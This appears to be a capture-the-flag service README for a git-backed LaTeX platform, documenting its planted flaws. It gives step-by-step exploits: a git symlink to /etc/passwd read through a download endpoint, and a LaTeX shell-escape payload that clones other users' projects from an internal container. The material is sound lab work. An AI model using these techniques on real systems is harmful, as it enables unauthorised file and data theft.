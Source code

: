 # Vulnerabilities

## Arbitrary Read

- Category: Path traversal
- Difficulty: Medium
  It is possible to upload a symlink to a file via git. The endpoint `/api/files/download/:id/*` will follow this symlink read the file.

## Authentication Bypass

- Category: Authentication
- Difficulty: Medium

# Exploits

## Arbitrary Read

- Create an account
- Create a project
- Clone the project to your local machine:

```bash
$ git clone http://127.0.0.1:8080/git/d475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954
Cloning into 'd475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954'...
Username for 'http://127.0.0.1:8080': a
Password for 'http://a@127.0.0.1:8080':
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
Unpacking objects: 100% (3/3), 334 bytes | 334.00 KiB/s, done.
$ cd d475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954/
$ ls -la
total 16
drwxrwxr-x  3 hllm hllm 4096 Jun  1 21:06 .
drwxrwxrwt 23 root root 4096 Jun  1 21:06 ..
drwxrwxr-x  8 hllm hllm 4096 Jun  1 21:06 .git
-rw-rw-r--  1 hllm hllm  216 Jun  1 21:06 main.tex
```

- Create a symlink and push it to the repo

```bash
$ ln -s /etc/passwd link
$ git add . && git commit -m "Added symlink to /etc/passwd"
$ git push
```

- Pull the changes by clicking on `Pull` in the project view
- Open the `link` now present in the file list

## Authentication Bypass

LaTeX can be used to run code[¹](https://0day.work/hacking-with-latex/), this is a feature of this service, however, this also allows acces to the `nginx-git` container.
This container itself dose not check for any authentication when cloning.

- Create a project
- Upload a file containing

```tex
\documentclass[12pt]{minimal}
\usepackage{verbatim}
\begin{document}
    \input{|"echo XGJlZ2lue3ZlcmJhdGltfQ== | base64 --decode; git clone http://nginx-git/ID; cat ./ID/main.tex; echo XGVuZHt2ZXJiYXRpbX0= | base64 --decode"}
\end{document}
```

- Compile this file
- The resulting pdf will contain `main.tex` of the proeject with the corrosponding id
